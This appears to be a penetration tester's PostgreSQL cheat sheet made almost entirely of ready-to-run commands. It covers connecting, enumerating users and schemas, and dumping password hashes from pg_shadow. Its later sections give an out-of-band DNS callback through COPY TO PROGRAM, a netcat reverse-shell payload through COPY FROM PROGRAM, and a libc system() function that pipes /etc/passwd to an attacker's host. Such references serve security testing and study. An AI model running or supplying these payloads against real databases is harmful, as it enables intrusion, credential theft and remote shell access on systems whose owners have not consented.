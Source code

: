 ### postgresql Connect
```bash
psql -h 192.168.100.11 -U postgres
```

### Enumeration
```bash
# DBMS Version
SELECT version()
# Database name
SELECT CURRENT_DATABASE()
# Database Schema
SELECT CURRENT_SCHEMA()
# List PostgreSQL Users
SELECT usename FROM pg_user
# List Password Hashes
SELECT usename, passwd FROM pg_shadow
# List DB Administrators
SELECT usename FROM pg_user WHERE usesuper IS TRUE
# Current Users
SELECT user;
SELECT current_user;
SELECT session_user;
SELECT usename FROM pg_user;
SELECT getpgusername();
```

### PostgreSQL Methodology
```bash
# List Schemas
SELECT DISTINCT(schemaname) FROM pg_tables
# List Databases
SELECT datname FROM pg_database
# List Tables
SELECT table_name FROM information_schema.tables;
SELECT table_name FROM information_schema.tables WHERE table_schema='<SCHEMA_NAME>';
SELECT tablename FROM pg_tables WHERE schemaname = '<SCHEMA_NAME>'
# List Columns
SELECT column_name FROM information_schema.columns WHERE table_name='data_table'

```

### OOB
```bash
# OOB 
COPY (SELECT '') to PROGRAM 'nslookup BURP-COLLABORATOR-SUBDOMAIN'
```

### RCE
```bash
# RCE 
CREATE TABLE shell(output text); COPY shell FROM PROGRAM 'rm /tmp/f;mkfifo /tmp/f;cat /tmp/f|/bin/sh -i 2>&1|nc 10.0.0.1 1234 >/tmp/f';
# RCE (Using libc.so.6)
CREATE OR REPLACE FUNCTION system(cstring) RETURNS int AS '/lib/x86_64-linux-gnu/libc.so.6', 'system' LANGUAGE 'c' STRICT; SELECT system('cat /etc/passwd | nc <attacker IP> <attacker port>');
```
[https://github.com/swisskyrepo/PayloadsAllTheThings/blob/master/SQL%20Injection/PostgreSQL%20Injection.md#postgresql-command-execution](https://github.com/swisskyrepo/PayloadsAllTheThings/blob/master/SQL%20Injection/PostgreSQL%20Injection.md#postgresql-command-execution)

